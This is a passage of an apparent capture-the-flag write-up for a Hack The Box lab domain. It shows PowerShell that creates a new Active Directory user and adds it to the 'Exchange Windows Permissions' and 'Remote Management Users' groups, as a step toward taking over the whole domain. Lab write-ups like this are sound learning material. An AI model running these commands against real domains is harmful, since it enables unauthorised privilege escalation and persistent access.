 ![image](assets/81122698-76410a00-8eff-11ea-8c01-655d8480d3b7.png)

After researching exploits that involve the "Exchange Windows Permissions" group I came across this article: https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md which explains that "A privilege escalation is possible from the Exchange Windows permissions (EWP) security group to compromise the entire prepared Active Directory domain." 

In the win-rm session I used powershell to create a new account in Active Directory. I created a new service account and added the service account to the "Remote Management Users" group so I could log in via win-rm.

> In previous attempts I had tried to use the svc-alfresco account but the settings for this account were being reverted very frequently so I opted to create a new account which worked much better.

```Powershell
### Account info
$user_pass = ConvertTo-SecureString "password123!" -AsPlainText -Force
$user_name = "user1"

### Create new user
New-ADUser -Name $user_name -GivenName $user_name -Surname $user_name -SamAccountName $user_name -UserPrincipalName "$user_name @htb.local" -Path "CN=Users,DC=htb,DC=local" -AccountPassword $user_pass -Enabled $true

### Add user to Remote Management Users and Exchange Windows Permissions
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members (Get-ADUser -Identity $user_name)
Add-ADGroupMember -Identity "Remote Management Users" -Members (Get-ADUser -Identity $user_name)
```

